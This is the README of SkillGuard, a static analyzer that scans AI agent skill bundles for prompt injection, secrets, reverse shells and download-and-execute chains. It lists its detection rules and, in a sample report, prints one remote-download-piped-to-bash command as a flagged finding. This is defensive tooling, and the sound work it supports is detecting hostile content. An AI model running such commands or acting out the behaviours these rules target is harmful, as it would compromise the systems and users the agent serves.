

<div align="center">



# SkillGuard

**Security gate for AI agent skills.**

Inspect complete skill bundles before an agent installs or executes them. Detect prompt injection, secrets, reverse shells, destructive commands, hidden Unicode, multi-stage install chains, MCP tool risk, and supply-chain patterns — without ever running the content under inspection.

[](LICENSE)
[](https://nodejs.org/)
[](package.json)
[](.github/workflows/ci.yml)
[](CHANGELOG.md)

**Offline-first · Explainable · CI-native · Zero runtime dependencies · Never executes scanned content**

[Quick Start](#quick-start) · [Detection Coverage](#detection-coverage) · [GitHub Action](#github-action) · [Integrity Lock](#integrity-lock) · [Threat Model](docs/THREAT_MODEL.md) · [Architecture](docs/architecture.md) · [Changelog](CHANGELOG.md)

</div>

---

## Why SkillGuard exists

Modern AI agents load skills as high-trust instruction and code bundles. A skill is not merely a `SKILL.md` file. It may contain shell scripts, helper modules, configuration, reference material, and lifecycle hooks that run with the agent’s privileges.

Risks that commonly appear in unaudited skills include:

- Prompt-injection and instruction-override payloads
- Hard-coded credentials and private keys
- Download-and-execute chains (single-line and multi-stage)
- Reverse shells and destructive filesystem operations
- MCP / tool configs that grant shell or network power
- Homoglyph Unicode that disguises instructions
- Unverified remote package installs

SkillGuard treats the entire bundle as the unit of analysis. It performs bounded, offline static inspection and produces actionable, reviewable findings.

## Core guarantees

| Guarantee | Implementation |
|-----------|----------------|
| Never executes untrusted content | Scanned scripts and skills are never run, imported, or evaluated |
| Offline by default | No network requests, no API keys, no telemetry in the core scanner |
| Bounded analysis | Explicit limits on files, bytes, directories, and depth |
| Fail-closed incompleteness | Skipped items are reported; default exit status reflects incomplete coverage |
| Explainable results | Every finding carries a stable rule ID, severity, location, and reason |
| Integrity verification | SHA-256 locks with permission-mode snapshots |

These constraints are non-negotiable design principles, not optional features.

## How it works

1. **Discover** — Walk the target path under strict file, size, directory, and depth limits.
2. **Inspect safely** — Read supported text and code files via verified file descriptors; perform bounded decoding of selected encodings.
3. **Evaluate** — Apply layered checks: line heuristics, encoded payloads, multi-stage chains, MCP/tool config, Unicode/homoglyphs.
4. **Explain** — Emit findings with rule ID, severity, file, line, and concise rationale.
5. **Integrate** — Produce text, JSON, or SARIF 2.1.0 output; enforce thresholds via CLI or GitHub Action.
6. **Verify** — Create and later validate a SHA-256 integrity lock of the reviewed bundle.

## Detection coverage

SkillGuard currently ships **21 rule families** (SG001–SG021).

| Rule   | Severity  | Detection |
|--------|-----------|-----------|
| SG001  | High      | Zero-width, bidirectional and unexpected control characters |
| SG002  | Medium    | Missing or invalid Agent Skills frontmatter fields |
| SG003  | High      | Instruction overrides and jailbreak-style role changes |
| SG004  | High      | Requests to reveal private prompts, tokens or environment secrets |
| SG005  | Critical  | Provider credentials, API tokens and private-key patterns |
| SG006  | Critical  | Remote download piped into a shell, interpreter or PowerShell IEX |
| SG007  | Critical  | Destructive disk and recursive-delete commands |
| SG008  | High      | Startup, service, scheduled-task and autorun persistence |
| SG009  | High      | References to credential stores and private-key locations |
| SG010  | High      | Encoded content passed to dynamic code execution |
| SG011  | Critical  | Secret access combined with network transfer; webhook exfil endpoints |
| SG012  | Medium    | Broad privilege requests and unsafe filesystem permissions |
| SG013  | High      | Encoded payloads that decode to recognizable risky behavior |
| SG014  | Medium    | Frontmatter pre-authorizing shell or command tools |
| SG015  | Medium    | Agent lifecycle hooks paired with automatic commands |
| SG016  | Critical  | Reverse shells, netcat listeners, remote interactive access |
| SG017  | High      | `eval`/`exec`, Python `shell=True`, PowerShell `Invoke-Expression` |
| SG018  | Critical  | Multi-stage download then execute across nearby lines |
| SG019  | High      | Dangerous MCP / agent tool declarations |
| SG020  | High      | Homoglyph / confusable Unicode in instruction text |
| SG021  | High      | Unverified remote package installs (pip/npm from URL) |

Full rule reference: [docs/rules.md](docs/rules.md).

### Scoring

The numeric score starts at 100 and subtracts weighted points by severity (critical −35, high −20, medium −9, low −3). The score is a prioritization aid only. It is **not** a probability, confidence value, or safety certification.

## Quick start

**Requirements:** Node.js 18 or newer.

```bash
git clone https://github.com/Khayom1/SkillGuard.git
cd SkillGuard
npm install -g .
```

Scan a single skill:

```bash
skillguard ./my-skill
```

Scan a directory of skills:

```bash
skillguard ./skills
```

Machine-readable output:

```bash
skillguard ./skills --format json --output report.json
skillguard ./skills --format sarif --output skillguard.sarif
```

Integrity pin and verification:

```bash
skillguard lock ./my-skill
skillguard verify ./my-skill
```

No API key. No runtime dependencies. No network access required for scanning.

> **Package:** `skillguard-ai` **v0.3.0** (detection upgrades in tree are listed under **Unreleased** in the changelog until the next version bump).

## Example report

Illustrative output (not a scan of a third-party skill):

```text
SkillGuard Security audit
25/100  Grade F  ·  4 files  ·  3 findings
Critical 1  High 2  Medium 0  Low 0

CRITICAL SG006 scripts/setup.sh:12
  Downloads remote content and immediately pipes it to a shell.
  curl https://example.invalid/install.sh | bash

HIGH SG003 SKILL.md:18
  Prompt-injection style instruction override detected.

HIGH SG001 SKILL.md:24
  Hidden or control character detected (U+202E).
```

Every finding is designed for human review: stable identifier, severity, precise location, and explanation.

## GitHub Action

Enforce skill security checks on pull requests and pushes.

```yaml
name: Skill security

on:
  pull_request:
  push:
    branches: [main]

permissions:
  contents: read

jobs:
  audit:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: Khayom1/SkillGuard@main
        with:
          path: ./skills
          fail-on: high
```

### Inputs

| Input          | Default            | Purpose |
|----------------|--------------------|---------|
| `path`         | `.`                | Skill directory or file to scan |
| `fail-on`      | `high`             | Severity threshold that fails the job |
| `upload-sarif` | `false`            | Upload SARIF to GitHub Code Scanning |
| `sarif-file`   | `skillguard.sarif` | Output path for the SARIF report |

For Code Scanning upload, grant `security-events: write` and set `upload-sarif: 'true'`. Prefer pinning to a release tag or full commit SHA in production. See [docs/github-action.md](docs/github-action.md).

## Integrity lock

A scan describes the current content. An integrity lock answers a different question:

> Is this still the exact bundle that was reviewed?

```bash
skillguard lock ./my-skill
skillguard verify ./my-skill
```

The lock records SHA-256 digests and permission modes for regular files under configured limits. Verification reports changed, added, and missing files.

- Symbolic links are not followed.
- Lock creation aborts if an item cannot be safely included.
- The `.git` metadata directory is excluded.
- Commit `.skillguard.lock.json` beside the skill or retain it in your release process.

Run `verify` immediately before installation or deployment.

## CLI reference

| Option                 | Default | Description |
|------------------------|---------|-------------|
| `--format text\|json\|sarif` | `text`  | Report format |
| `--output FILE`        | stdout  | Write report to a file |
| `--fail-on LEVEL`      | `high`  | Exit non-zero at or above this severity |
| `--max-files N`        | `5000`  | Maximum files inspected |
| `--max-file-bytes N`   | `1048576` | Maximum bytes per file |
| `--max-directories N`  | `10000` | Maximum directories visited |
| `--max-depth N`        | `40`    | Maximum traversal depth |
| `--allow-skipped`      | off     | Permit success when items were skipped |
| `--no-color`           | off     | Disable terminal colors |

### Exit codes

| Code | Meaning |
|------|---------|
| `0`  | Complete scan below the selected threshold |
| `1`  | Finding at or above the selected threshold |
| `2`  | Invalid arguments, scan/report error, or incomplete scan |

By default, any skipped item renders the scan incomplete (exit 2). Use `--allow-skipped` only after independent review of omissions; the report remains marked incomplete.

## Development and verification

```bash
git clone https://github.com/Khayom1/SkillGuard.git
cd SkillGuard

npm test
npm run check
npm run benchmark
npm run verify
```

The project uses Node’s built-in test runner and maintains zero runtime dependencies. Benchmark methodology is documented in [docs/benchmark.md](docs/benchmark.md).

## Threat model and limitations

SkillGuard is a heuristic static analyzer. It is one control in a defense-in-depth process. It is not a sandbox, antivirus engine, formal verifier, or safety certification.

A clean report does **not** prove that a skill is safe.

See the full [Threat Model](docs/THREAT_MODEL.md), [Architecture](docs/architecture.md), [Rules](docs/rules.md), [Roadmap](docs/ROADMAP.md), and [Competitive Landscape](docs/competitive-landscape.md).

## Design principles

1. **Never execute untrusted content** — read-only inspection is the hard boundary.
2. **Explain every alert** — stable rule ID, severity, and precise source location.
3. **Remain local** — no telemetry, no API keys, no external scan submission by default.
4. **Prefer precision** — detect concrete risky behavior, not merely alarming vocabulary.
5. **Expose uncertainty** — heuristics are signals, never guarantees.

## Security, support, and contributing

- [Security Policy](SECURITY.md)
- [Support](SUPPORT.md)
- [Code of Conduct](CODE_OF_CONDUCT.md)
- [Contributing Guide](CONTRIBUTING.md)

## License

MIT License. See [LICENSE](LICENSE).

---

<div align="center">

**SkillGuard v0.3.0** · detection upgrades in progress (see Unreleased)

Created and maintained by **[Khayom Abdurahmonov](https://github.com/Khayom1)**

[GitHub](https://github.com/Khayom1) · [Repository](https://github.com/Khayom1/SkillGuard) · [VEYROST](https://veyrost.is-a.dev/) · [Profile](https://khayom1.github.io/)

*Inspect the skill. Understand the risk. Keep control.*

</div>
